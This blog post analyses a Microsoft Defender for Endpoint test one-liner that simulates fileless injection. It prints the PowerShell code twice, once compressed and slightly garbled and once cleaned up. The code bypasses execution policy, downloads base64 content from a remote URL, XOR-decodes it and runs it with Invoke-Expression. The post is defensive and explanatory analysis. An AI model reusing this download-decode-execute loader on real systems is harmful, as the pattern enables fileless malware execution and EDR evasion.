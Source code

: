 ```yaml
---
title: Fileless Injection Analysis - EDR litmus test
description: Injection fileless
pubDate: Jan 6 2022
heroImage: /blog-invoke-ps.jpg
tags: ['malware','analysis','Inline C#']
categories: ['Malware']
---
```


This was taken from a Microsoft Defender for Endpoint ATP intro that tests fileless injection. 

I will go over the workings of the one-liner as it follows what I would consider the bare minimum required for mentality when utilizing powershell as a vector in todays threat landscape.

This is similar to Microsoft [AttackSimulationDIYv2](https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/AttackSimulationDIYv2.pdf) from back in 2016.

Here we go, I set the execution policy myself before running in a pwsh.exe elevated.

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor    = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String =    Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];  $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression  ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```

The one-liner has been cleaned for ease of understanding including using all man for brackets as it aids with understanding control flow. 

```powershell

#Bill Gates.ps1
Set-ExecutionPolicy Bypass -Scope Process -Force

[System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072;

$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');

$base64String = (Invoke-WebRequest -URI 'https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt' -UseBasicParsing).Content


try 
{ 
  $contentBytes = [System.Convert]::FromBase64String($base64String);
} 
catch 
{ 
  $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3));
}

$i = 0;
$decryptedBytes = @();

$contentBytes.foreach{ 
  $decryptedBytes += $_ -bxor $xor[$i];
  $i++;
  if ($i -eq $xor.Length) {
    $i = 0;
  } 
}

Invoke-Expression  ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```